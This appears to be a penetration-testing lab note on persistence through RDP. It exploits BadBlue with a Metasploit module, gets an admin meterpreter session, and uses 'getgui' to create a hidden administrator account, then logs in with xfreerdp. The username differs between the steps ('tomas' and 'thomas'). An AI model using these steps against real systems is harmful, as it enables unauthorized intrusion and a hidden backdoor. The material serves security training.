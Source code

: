 # Persistence Via RDP

## Practice Demo

Identify the vulnerable service.

We identify the BadBlue vulnerability.

We use the module <mark style="color:red;">exploit/windows/http/badblue\_passthru</mark>

We gain a 32 bit meterpreter session on the target, as the Admin user.

We migrate to a more stable service, since what we will be doing requires it, giving us a 64 bit meterpreter session.

### Creating backdoor user account

In meterpreter run:

* <mark style="color:yellow;">run getgui -e -u tomas -p hacker\_123321</mark>
  * "<mark style="color:red;">getgui</mark>": Checks if rdp is enabled or enable it
  * Creates a new user "thomas"
  * Hides user from login screen
  * And add the user to the admins and Remote Desktop Users group

#### To access the target system:

* <mark style="color:yellow;">xfreerdp /u:thomas /p:hacker\_123321  /v:targetIP</mark>
